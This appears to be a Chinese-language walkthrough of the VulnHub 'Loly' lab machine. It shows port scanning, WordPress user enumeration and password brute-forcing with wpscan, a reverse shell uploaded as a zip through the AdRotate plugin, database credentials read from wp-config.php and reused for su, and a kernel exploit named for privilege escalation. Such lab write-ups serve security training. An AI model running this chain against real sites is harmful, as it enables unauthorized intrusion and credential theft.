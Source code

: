 # Loly

> https://download.vulnhub.com/loly/Loly.ova

靶场IP：`192.168.2.136`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p1-65535 -sV 192.168.2.136                                                                                                                                                                                               
Starting Nmap 7.91 ( https://nmap.org ) at 2022-09-06 09:55 EDT
Nmap scan report for 192.168.2.136
Host is up (0.00058s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
MAC Address: 00:0C:29:24:CB:0B (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.22 seconds

```

浏览器访问80端口

![image-20220906215926885](../../.gitbook/assets/image-20220906215926885.png)

爆破web目录

![image-20220906220003026](../../.gitbook/assets/image-20220906220003026.png)

需要配置本地hosts

![image-20220906220031942](../../.gitbook/assets/image-20220906220031942.png)

![image-20220906220122590](../../.gitbook/assets/image-20220906220122590.png)

枚举wordpress用户

```
wpscan --url http://loly.lc/wordpress --enumerate u

[i] User(s) Identified:

[+] loly
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

```

爆破密码

```
wpscan --url http://loly.lc/wordpress --usernames loly --passwords /usr/share/wordlists/rockyou.txt
```

```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - loly / fernando                                                                                                                                                                                                                 
Trying loly / corazon Time: 00:00:01 <   
```



我看到我们安装了一个名为"AdRotate"的插件，我们可以在其中上传 zip 文件。

```
http://loly.lc/wordpress/wp-admin/admin.php?page=adrotate-media
```

![image-20220906220850297](../../.gitbook/assets/image-20220906220850297.png)

```
┌──(root💀kali)-[/tmp]
└─# zip shell.zip php-reverse-shell.php 
  adding: php-reverse-shell.php (deflated 59%)

```

![image-20220906221157615](../../.gitbook/assets/image-20220906221157615.png)

访问反弹shell

```
http://loly.lc/wordpress/wp-content/banners/shell.php
```

```
$ python3 -c "import pty;pty.spawn('/bin/bash')";
```

查看`wp-config.php`配置文件

```
www-data@ubuntu:~/html/wordpress$ cat wp-config.php
cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

```

切换到loly用户

```
www-data@ubuntu:~/html/wordpress$ su loly
su loly
Password: lolyisabeautifulgirl

loly@ubuntu:/var/www/html/wordpress$ sudo -l
sudo -l
[sudo] password for loly: lolyisabeautifulgirl

Sorry, user loly may not run sudo on ubuntu.

```

使用CVE-2017-16995进行提权。
